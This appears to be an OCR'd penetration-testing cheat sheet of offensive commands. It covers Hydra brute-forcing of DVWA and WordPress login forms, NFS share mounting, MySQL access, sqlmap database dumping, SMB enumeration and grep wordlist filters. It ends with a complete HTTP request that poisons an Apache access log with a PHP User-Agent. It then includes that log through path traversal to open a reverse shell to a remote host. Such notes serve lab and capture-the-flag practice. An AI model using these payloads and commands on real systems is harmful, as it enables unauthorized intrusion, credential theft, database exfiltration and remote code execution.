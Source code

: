       hydra -L usernames.txt -P passwords.txt IP http-post-form “/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed"
      
      hydra -l username -P password.dic x.x.x.x http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.27.6%2Fwp-admin%2F&testcookie=1:S=302" -v -V

      
NFS
===
      showmount -e IP
      mkdir /tmp/dir
      sudo mount -t nfs IP:/opt/files /tmp/dir

MYSQL
=====
      mysql -h <ip> -u root -p
      SHOW DATABASES;
      USE <db_name>
      SELECT * FROM 

SQLMap
-------
      sqlmap.py -u http://x.x.x.x/administrator.php --forms --dump --batch
      sqlmap.py -u http://x.x.x.x:80/login.php --forms --risk=3 --level=5 --dump-all --batch -D <dbname>                 

Samba
=====
      nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>

      smbclient //<ip>/<share-name>
      smbget -R smb://<ip>/<share-name>

      nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip> (rpcbind - a server that converts remote procedure call (RPC) program number into universal addresses.)

GREP
----
      grep -x '.\{8,20\}' > 8-20_length_wordlist
      grep -o '[^ ]*[a-z][^ ]*' > contains_lowercase.txt 
      grep -o '[^ ]*[A-Z][^ ]*' > contains_uppercase.txt 
      grep -o '[^ ]*[0-9][^ ]*' > contains_numbers.txt 
      grep -v "^[A-Za-z0-9]*$" > contains_special.txt


PHP Reverse Shell with log_poisoning
-----------------------------------
      GET /?view=/dog/../../../../../../../var/log/apache2/access.log&ext&cmd=php+-r+'$sock%3dfsockopen("x.x.x.x",1313)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
      Host: x.x.x.x 
      User-Agent: <?php system($_GET['cmd']);?>
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

